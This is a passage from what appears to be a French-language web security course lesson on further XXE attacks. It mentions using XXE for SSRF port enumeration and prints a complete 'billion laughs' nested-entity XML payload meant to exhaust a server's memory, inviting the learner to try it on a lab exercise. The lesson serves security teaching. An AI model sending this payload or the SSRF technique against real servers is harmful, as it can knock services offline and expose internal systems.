 Autres attaques XXE
-------------------

Une autre attaque courante souvent menée via les vulnérabilités XXE est l'exploitation SSRF, qui est utilisée pour énumérer les ports ouverts localement et accéder à leurs pages, entre autres pages Web restreintes, via la vulnérabilité XXE. Le module [Server-Side Attacks](https://academy.hackthebox.com/course/preview/server-side-attacks) couvre en détail SSRF, et les mêmes techniques peuvent être utilisées avec les attaques XXE.

Enfin, une utilisation courante des attaques XXE provoque un déni de service (DOS) sur le serveur Web d'hébergement, avec l'utilisation de la charge utile suivante :

Code : xml

```
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>

```

Cette charge utile définit l' `a0`entité comme `DOS`, la référence `a1`plusieurs fois, la référence `a1`dans `a2`, et ainsi de suite jusqu'à ce que la mémoire du serveur principal s'épuise en raison des boucles d'auto-référence. Cependant, `this attack no longer works with modern web servers (e.g., Apache), as they protect against entity self-reference`. Essayez-le contre cet exercice, et voyez si cela fonctionne.
